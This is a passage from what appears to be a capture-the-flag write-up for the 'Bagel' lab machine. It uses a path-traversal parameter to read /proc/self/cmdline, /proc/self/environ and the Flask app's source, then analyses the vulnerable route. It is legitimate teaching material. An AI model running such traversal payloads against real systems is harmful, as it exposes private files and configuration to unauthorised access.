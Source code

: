 

    oxdf@hacky$ curl -o- -s http://bagel.htb:8000/?page=../../../../proc/self/cmdline | tr '\000' ' '
    python3 /home/developer/app/app.py 



I can also get the environment variables from `environ` (this time
replacing null with newline):



    oxdf@hacky$ curl -s http://bagel.htb:8000/?page=../../../../proc/self/environ -o- | tr '\000' '\n'
    LANG=en_US.UTF-8
    PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin
    HOME=/home/developer
    LOGNAME=developer
    USER=developer
    SHELL=/bin/bash
    INVOCATION_ID=3f19c33fc85b4cc0aa821a93d7deb345
    JOURNAL_STREAM=8:25240
    SYSTEMD_EXEC_PID=892



The process is running as developer (which makes sense as it's running
out of developer's home directory).

I can also use the command line to get the path to the source:



    oxdf@hacky$ curl -o- -s http://bagel.htb:8000/?page=../../../../home/developer/app/app.py
    from flask import Flask, request, send_file, redirect, Response
    import os.path
    ...[snip]...



### Source Code Analysis

`app.py` is a simple single-file Flask application. It starts by
importing libraries and initializing the Flask application:



    from flask import Flask, request, send_file, redirect, Response
    import os.path
    import websocket,json

    app = Flask(__name__)



`websocket` is an interesting import.

There are two routes defined. `index` is the main page:



    @app.route('/')
    def index():
            if 'page' in request.args:
                page = 'static/'+request.args.get('page')
                if os.path.isfile(page):
                    resp=send_file(page)
                    resp.direct_passthrough = False
                    if os.path.getsize(page) == 0:
                        resp.headers["Content-Length"]=str(len(resp.get_data()))
                    return resp
                else:
                    return "File not found"
            else:
                    return redirect('http://bagel.htb:8000/?page=index.md', code=302)
